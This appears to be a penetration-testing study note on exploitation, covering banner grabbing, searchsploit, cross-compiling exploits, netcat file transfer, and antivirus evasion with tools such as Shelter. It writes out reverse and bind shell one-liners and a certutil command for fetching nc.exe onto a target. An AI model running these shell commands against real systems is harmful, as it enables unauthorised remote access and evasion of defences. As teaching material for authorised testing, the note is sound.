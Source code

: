 # EXPLOITATION

Techniques and tools used to gain an initial foothold on a target.
1. Identify vulnerable services
2. Identify and prepare exploit code
3. Gainin access
    - msfconsole
    - manual
4. Obtaining remote access
5. Bypass AV
6. Pivoting

## Banner Grabbing
Is a information gathering technique used to enumerate information of OS, services and ports of the target.
- Nmap
- Netcat
- Authetication with the service: ssh, ftp,...

**Notes**: In web applications try to find shellshock vulnerability
**Tip**: to find easily nmap scripts `ls -la /usr/share/nmap/script | grep <>`

## Searching exploits
- Exploit-db
- Rapid7
- packetstorm

### Searchsploit
Has the entire exploit-db database of exploits. Located in /usr/share/exploitdb/exploits.
```
searchsploit -u #updates
searchsploit -m <id> #detail info
searchsploit -c <id> #copy exploit to workin directory
searchsploit -t #help with searchs
searchsploit -w <id> #web page of exploit
searchsploit -e <id> #opens exploit to read and edit it
```
1. Copy exploit `searchsploit -c <id>`
2. Give executable permissions `chmod +x <>`
3. Execute eploit with python `python3 <exploit> <arguments if need it>`
4. If anything is not working edit with `vim <explit>`

## Cross compiling exploits
Process of compioling code for a platform other than the one performing the compilation (transform from the developed language to a portable executable or binary one)
To compile exploit code developed in C:
- For Linux: `gcc -pthread <file in C> -o <file name of the output> -laypt`
- For Windows from Linux: `i686-w64-mingw32-gcc <file in C> -o <file name of the output> -lws2_32` 

## Netcat
Working utilty used to read an write data to network connectios using TCP and UDP. Utilizes client-server communication with two modes:
- **Client mode**: to connect to any TCP/UDP ports
- **Server mode**: to listen for connections from clients
```
nc --help
man nc #manual
nc -v <ip> <port> #verbose
nc -u <ip> <port> #udp
nc -p <local port>> <ip> <destination port> 
nc -l <ip> <port>
nc -n #desable resolving domain names
nc -nv <ip> <port> < <file to send to that ip>
nc -nvlp <port> > <file> #redirects output of the listener to the file
```
Sending file from Linux to Windows:
1. Transfering the netcat executable in linux
`cd /usr/share/windows-binaries`
`python -m SimpleHTTPServer 80`
2.  Download executable in windows machine (target)
`certutil -urlcache -f https://<ip>/nc.exe nc.exe`

```
nc.exe -nvlp <port> > <file where data connectios are going to be saved>
```
**Listener**
`nc -nvlp <port>`
`nc -nvlpu <port>`

**Connection**
`nc.exe -nv <ip> <port>`
`nc.exe -nvu <ip> <port>`
`pythob -m SimpleHTTPServer 80`

## Bind shells
Remote shell where the attacker connects directly to a listener on the target system

**Attacker**
`nc -nv <ip> <port>`
`nc.exe -nv <ip> <port>`

**Target**
Set up to execute shell when clients connects:
`nc.exe -nvlp <port> -e cmd.exe`
`nc -nvlp <port> -e /bin/bash`

## Reverse shells
Target connects to attacker allowing command execution

**Attacker**
`nc -nvlp <port>`

**Target**
`nc -nv <ip> <port> -e /bin/bash`
`nc.exe -nv <ip> <port> -e /bin/bash`

![Alt text](image-13.png)

**Notes**: payloadallthethings, revshelss.com

## Frameworks
- Powershell empire
- Starkiller

## Black box pentest
- Host discovery
- Port scanning & enumeration
- Vulnerability detection/scanning
- Expolitation
    - Manual
    - Automated
- Post exploitation
    - Privilege escalation
    - Persistence
    - Dumping hashes

## AV evasion with Shelter

To avoid detection throughout their compromise.
1. Signature based detection: unique sequence of bytes that nuiquely indentifies malware
2. Heuristic based detection: rules or decisions to determine wether ir malicious or not
3. Behavior based detection: monitoring behavior 

**Techniques**:
- Obfuscation: reorganizes code to make it harder to analyze
- Encoding: changing data unto new format
- Packing: generate executable with new binary structure with smaller size
- Crypters: encrypts code 
**Tools**: Shelter, Invoke-obfuscation




